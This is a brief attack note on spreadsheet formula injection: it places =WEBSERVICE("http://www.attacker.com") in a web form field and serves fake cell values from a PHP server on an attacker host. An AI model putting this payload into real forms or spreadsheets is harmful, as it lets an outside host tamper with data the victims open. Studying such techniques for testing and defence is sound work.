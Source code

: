 Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

#Run attacking server 
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
############ Begin index.html ##################################
Fake Data
############ End index.html ####################################

To fill in multiple cells use multiple html file
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
############ Begin a2.html ##################################
Data
############ End a2.html ####################################




